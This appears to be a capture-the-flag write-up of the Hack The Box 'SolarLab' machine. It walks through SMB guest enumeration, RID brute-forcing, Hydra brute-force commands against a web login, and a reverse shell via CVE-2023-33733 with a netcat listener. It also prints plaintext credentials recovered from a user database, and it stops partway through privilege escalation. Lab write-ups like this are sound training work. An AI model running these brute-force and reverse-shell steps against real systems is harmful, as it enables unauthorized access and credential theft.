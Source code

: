 # Solar Lab Write Up

# Intro
For this Hack the Box (HTB) machine, techniques such as Enumeration, user pivoting, and privaledge escalation were used in order to obtain both the user and root flags.

Below you can find of the tools that I used to complete this challenge
1. Kali Linux: An operating system that specializes in penetration testing.
2. Nmap: An open-source toolf for network exploration, along with security auditing
3. Crackmapexec: Automates the active directory of networks. THis can be used for Password Spraying, Credential Validation and Command Execution.
4. Hydra: A well known login cracker that is used for Brute Force Attacks.

I will go into detail regarding the steps taken. First we will go over the initial reconnaissance, identifying avenues of exploitation, exploitation foothold, then post exploitation.

### Initial Reconnisance
As with the first step of any HTB challenge, or penetration test, is to do a network scan. Below is a screenshot of the Nmap findings.

```bash
sudo nmap -sS -p- 10.10.11.16 -v

Nmap scan report for solarlab.htb (10.10.11.16)
Host is up (0.039s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT     STATE SERVICE
80/tcp   open  http
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
6791/tcp open  hnm

}
```

It is interesting to see that port 6791 is open. After research, I found that hnm is Halcyon Network Manager. With that I went to the page and saw a login page for a ReportLab/ReportHub login.

This will be usefull for later. In the meantime, port 445 was open and was explored in hopes of finding an exploit. Crackmapexec was used to make an attempt to log in as a guest via smb.

```bash
crackmapexec smb solarlab.htb -u Guest -p "" --shares

Results:

SMB         solarlab.htb    445    SOLARLAB         [*] Windows 10 / Server 2019 Build 19041 x64 (name:SOLARLAB) (domain:solarlab) (signing:False) (SMBv1:False)
SMB         solarlab.htb    445    SOLARLAB         [+] solarlab\Guest: 
SMB         solarlab.htb    445    SOLARLAB         [+] Enumerated shares
SMB         solarlab.htb    445    SOLARLAB         Share           Permissions     Remark
SMB         solarlab.htb    445    SOLARLAB         -----           -----------     ------
SMB         solarlab.htb    445    SOLARLAB         ADMIN$                          Remote Admin
SMB         solarlab.htb    445    SOLARLAB         C$                              Default share
SMB         solarlab.htb    445    SOLARLAB         Documents       READ            
SMB         solarlab.htb    445    SOLARLAB         IPC$            READ            Remote IPC

}
```

Suprisingly we don't need a password as a guest login, and we see that we have access to the share drive, along with some documents.


```bash
─(kali㉿kali)-[~]
└─$ smbclient //solarlab.htb/Documents -U Guest
Password for [WORKGROUP\Guest]:
Try "help" to get a list of possible commands.
smb: \> dir
  .                                  DR        0  Fri Apr 26 10:47:14 2024
  ..                                 DR        0  Fri Apr 26 10:47:14 2024
  concepts                            D        0  Fri Apr 26 10:41:57 2024
  desktop.ini                       AHS      278  Fri Nov 17 05:54:43 2023
  details-file.xlsx                   A    12793  Fri Nov 17 07:27:21 2023
  My Music                        DHSrn        0  Thu Nov 16 14:36:51 2023
  My Pictures                     DHSrn        0  Thu Nov 16 14:36:51 2023
  My Videos                       DHSrn        0  Thu Nov 16 14:36:51 2023
  old_leave_request_form.docx         A    37194  Fri Nov 17 05:35:57 2023

smb: \> get details-file.xlsx
getting file \details-file.xlsx of size 12793 as details-file.xlsx (94.6 KiloBytes/sec) (average 94.6 KiloBytes/sec)

```
## Exploitation
After looking at the details-file.xlsx, we see that we have a list of logins, social security numbers, and various other personal details of the staff in Solar Labs.

*** Put picture here ***


Now that it is posible to access port 445 anonymously, we can use crackmapexec to brute force Relative Identifiers.

```bash
crackmapexec smb solarlab.htb -u anonymous -p '' --rid-brute

SMB         solarlab.htb    445    SOLARLAB         [*] Windows 10 / Server 2019 Build 19041 x64 (name:SOLARLAB) (domain:solarlab) (signing:False) (SMBv1:False)
SMB         solarlab.htb    445    SOLARLAB         [+] solarlab\anonymous: 
SMB         solarlab.htb    445    SOLARLAB         [+] Brute forcing RIDs
SMB         solarlab.htb    445    SOLARLAB         500: SOLARLAB\Administrator (SidTypeUser)
SMB         solarlab.htb    445    SOLARLAB         501: SOLARLAB\Guest (SidTypeUser)
SMB         solarlab.htb    445    SOLARLAB         503: SOLARLAB\DefaultAccount (SidTypeUser)
SMB         solarlab.htb    445    SOLARLAB         504: SOLARLAB\WDAGUtilityAccount (SidTypeUser)
SMB         solarlab.htb    445    SOLARLAB         513: SOLARLAB\None (SidTypeGroup)
SMB         solarlab.htb    445    SOLARLAB         1000: SOLARLAB\blake (SidTypeUser)
SMB         solarlab.htb    445    SOLARLAB         1001: SOLARLAB\openfire (SidTypeUser)


```

We see that blake si a user, of which we found his login information within the excel file. With this information, we should be able to brute force the ReportHub login via Hydra.


```bash
hydra -L /home/kali/wordlist/solarlab_user_word_list.txt -P /home/kali/wordlist/solarlabs_wl_pass.txt report.solarlab.htb -s 6791 http-post-form "/login:username=^USER^&password=^PASS^&enter=Login:User not found." -V

```
![hydra_screen_shot](https://github.com/theryeguy92/HTB-Solar-Lab/assets/103153678/046207b2-e0bb-42eb-b226-63143d9d38ca)

We get a list of usernames. Notice how they start with their name, and end in the capital of their last name. Now we will focus on Blake and brute force only his potential username/password.

```bash
hydra -l BlakeB -P /home/kali/wordlist/solarlabs_wl_pass.txt report.solarlab.htb -s 6791 http-post-form "/login:username=^USER^&password=^PASS^&enter=Login:User not found." -V

```

Now we are able to log into the ReportHub Dashboard.

![blakeb_dashboard](https://github.com/theryeguy92/HTB-Solar-Lab/assets/103153678/dcb4d6a1-d80f-405b-b22d-745acca5e1ea)

## Post-Exploitation

After some analysis, each of the options generate a pdf. There is a vulnrability (CVE-2023-33733) that will exploit the pdf generating ability, of which will allow us to get a reverse shell into the local network.

To do so, I simply used a reverse shell generator and plugged in the payload into the python script.

For simplicity, here are the steps used to get the reverse shell:

1. Used a Reverse Shell Generator: https://www.revshells.com/
2. Plug in the payload (illustrated below) in the python script: https://github.com/c53elyas/CVE-2023-33733
   ![payload_python](https://github.com/theryeguy92/HTB-Solar-Lab/assets/103153678/f1b423e7-747c-449f-9c06-c081c69fae6b)
3. After this set up, since Its possible to intercept, and alter the Training Request text and plug the malicious script.
   ![payload_packet intercept](https://github.com/theryeguy92/HTB-Solar-Lab/assets/103153678/73b59298-5761-4f65-8e3d-83f371a37b3d)
4. Before we Forward the response, we set up a listener on port 4444 (Or the port you set up a netcat listener).
```bash
sudo rlwrap nc -lnvp 4444

```

After completing these above steps, we not have a foothold within the network
![foothold_solar_lab](https://github.com/theryeguy92/HTB-Solar-Lab/assets/103153678/85edbe45-1b2f-405c-b131-1b6fb6ffce5c)


From our foothold, we see that we are logged in as the user blake

![whoami_blake](https://github.com/theryeguy92/HTB-Solar-Lab/assets/103153678/70c5dd34-2c3d-4730-9c7e-6d4a461426be)


## Foothold

With the foothold estabilished, we begin to explore directories. In doing so, we are able to capture the user flag.

![userflag_found](https://github.com/theryeguy92/HTB-Solar-Lab/assets/103153678/5ac39860-546c-421f-9c9c-14e967856df1)


In one of the directories, we discovered a user.db file. We can use the type command to get user login information.

![credentials_unlocked](https://github.com/theryeguy92/HTB-Solar-Lab/assets/103153678/a1369303-23a7-4c7b-a902-fd546592784e)

As this is not the most flattering snapshot, we can deduct the following information:

```
 user			    pass
 alexanderk		HotP!fireguard
 007poiuytrewq		claudias007
 blakeb			ThisCanB3typedeasily1@

```

However, in order to escalate our privaleges, we will have to pivot to another user. This is because Blake does not have root privleges.

When exploring, we discovered a user named openfire via the Get-LocalUser command.













